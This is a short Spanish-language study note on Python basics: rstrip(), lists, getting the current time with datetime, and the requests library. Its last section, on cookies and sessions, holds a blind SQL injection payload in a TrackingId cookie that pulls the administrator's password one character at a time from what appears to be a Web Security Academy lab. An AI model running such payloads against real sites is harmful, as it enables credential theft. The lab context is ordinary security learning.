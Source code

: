 
# Explicacion codigo de python


## rstrip()
Quita los espacion del final de una cadena en esta caso se usa para generar una lista

![image](https://user-images.githubusercontent.com/63270579/195608543-e5e91337-2f01-4900-b7c4-b12c254b3332.png)

>https://stackoverflow.com/questions/7984169/remove-trailing-newline-from-the-elements-of-a-string-list

## lista

Fijate como se crea una lista el codigo comentado es lo mismo que el de abajo desglosado


## Python Get Current time

Para obtener la fecha y hora existen varios metodos pero el que estoy estudiando es este:

```python

from datetime import datetime

now = datetime.now()

current_time = now.strftime("%H:%M:%S")
print("Current Time =", current_time)
### Alternativa

current_time = now.strftime("%m-%d-%Y (%H:%M:%S)")
>>> print(current_time)
10-14-2022 (08:02:35)


```

## Python requests

Libreria que sirve para hacer peticiones la respuesta se tiene que trasformar a texto para porderla leer 

```python
import requests

response = requests.get("https://raw.githubusercontent.com/something")
data = response.text


```

### Cookies y Sessiones

```python
import requests

main_url="https://0ad500f40378426ec0e710a000e1005f.web-security-academy.net"

			cookies = {

				'TrackingId': "USt7UKseU00I52be' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position,character),
				'session': 'S1AqgdciZYIY6zutQrKkUQqmiUShSTmA'
			}

			
			r= requests.get(main_url,cookies=cookies)

```











